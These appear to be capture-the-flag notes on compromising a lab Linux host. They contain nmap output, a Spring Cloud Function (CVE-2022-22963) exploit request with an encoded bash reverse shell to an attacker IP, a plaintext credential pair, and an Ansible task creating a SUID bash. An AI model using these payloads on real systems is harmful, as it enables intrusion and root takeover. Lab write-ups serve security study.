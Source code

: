 # nmap 
```shell
nmap -sC -sV -oN scan.txt -Pn $IP -T5 -p- --min-rate=1000
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-11 05:03 CST
Stats: 0:00:04 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 4.84% done; ETC: 05:04 (0:01:19 remaining)
Warning: 10.129.228.213 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.129.228.213
Host is up (0.041s latency).
Not shown: 61662 closed tcp ports (reset), 3871 filtered tcp ports (no-response)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ca:f1:0c:51:5a:59:62:77:f0:a8:0c:5c:7c:8d:da:f8 (RSA)
|   256 d5:1c:81:c9:7b:07:6b:1c:c1:b4:29:25:4b:52:21:9f (ECDSA)
|_  256 db:1d:8c:eb:94:72:b0:d3:ed:44:b9:6c:93:a7:f9:1d (ED25519)
8080/tcp open  nagios-nsca Nagios NSCA
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 83.81 seconds

```


# The site has an LFI vulnerability on the /upload directory, once the user uploads a file, it creates a link where the vulnerability is found 

# Found ../../../pom.xml, it uses a vulnerable spring module 

https://sysdig.com/blog/cve-2022-22963-spring-cloud/

# Gained a shell after invoking a request that executes a code
```shell
curl -X POST http://10.129.228.213:8080/functionRouter  -H 'spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44NC80NDQ0IDA+JjE=}|{base64,-d}|{bash,-i}")' --data-binary "data"
```


# /home/frank/.m2 contains credentials
phil:DocPhillovestoInject123

# Used pspy64 to get all running processes on the machine
https://github.com/DominicBreuker/pspy

# Found a process that uses ansible-parallel, it uses a config file from /opt/automation/tasks/*.yml


```shell
- hosts: localhost
  tasks:
  - name: Checking webapp service
	shell: cp /bin/bash /tmp/bash; chmod 4755 /tmp/bash
```